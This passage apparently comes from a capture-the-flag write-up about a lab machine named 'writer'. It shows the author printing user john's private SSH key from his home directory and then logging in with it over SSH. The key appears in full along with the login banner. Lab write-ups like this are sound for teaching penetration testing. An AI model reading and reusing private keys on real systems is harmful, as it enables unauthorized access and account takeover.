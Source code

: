 Looking around we find johns private ssh key, which we use to log in in the next step, to get an even more stable and als encrypted connection and also for the groups to fully get loaded.

```
john@writer:/var/spool/postfix$ cat /home/john/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
john@writer:/var/spool/postfix$
```

```
$ ssh -i john john@10.129.182.107
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 31 Jul 23:38:17 UTC 2021

  System load:           0.15
  Usage of /:            64.6% of 6.82GB
  Memory usage:          37%
  Swap usage:            0%
  Processes:             289
  Users logged in:       2
  IPv4 address for eth0: 10.129.182.107
  IPv6 address for eth0: dead:beef::250:56ff:feb9:8bc6

```